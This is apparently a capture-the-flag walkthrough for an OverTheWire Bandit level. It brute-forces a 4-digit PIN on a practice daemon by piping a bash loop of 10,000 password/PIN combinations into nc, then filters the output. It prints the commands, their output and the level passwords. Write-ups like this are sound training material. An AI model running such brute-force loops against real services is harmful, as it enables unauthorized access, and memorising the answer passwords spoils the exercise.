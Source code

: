 # Level 25

## Level Info

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

# Solution

We need to check all possible combinations. If we provide the password for bandit24 and the PIN as instructed, one of them will give us the password for bandit25.

**Important:** We can inject strings directly into the connection:

```sh
bandit24@bandit:/tmp/tmp.N95yqcedQe$ echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234" | nc 127.0.0.1 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
```

To do this, we can generate all possible combinations and pipe the output into the connection:

```sh
bandit24@bandit:/tmp/tmp.N95yqcedQe$ for pin in {0000..9999};do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done | nc 127.0.0.1 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```

In this way, we create a `for` loop that generates an `echo` command for all combinations between 0000 and 9999. The generated `echo` is piped into the connection. When the combination is incorrect, it returns the message: *"Wrong! Please enter the correct current password and pincode. Try again."* We apply a `grep -v` to exclude lines containing the word *"Wrong."*

If we want to identify the correct PIN, we can analyze the lines of output. Knowing that the lines we want are those marked as "Wrong," we can count those lines while excluding only the correct ones:

```sh
bandit24@bandit:/tmp/tmp.N95yqcedQe$ for pin in {0000..9999};do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done | nc 127.0.0.1 30002 | grep -vE "bandit25|Correct" | wc -l
3948
```

**Note:** The output generates an empty line at the end, which is also counted. Therefore, the correct count would be **3948 - 1 = 3947.**

# Password for level 26:

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
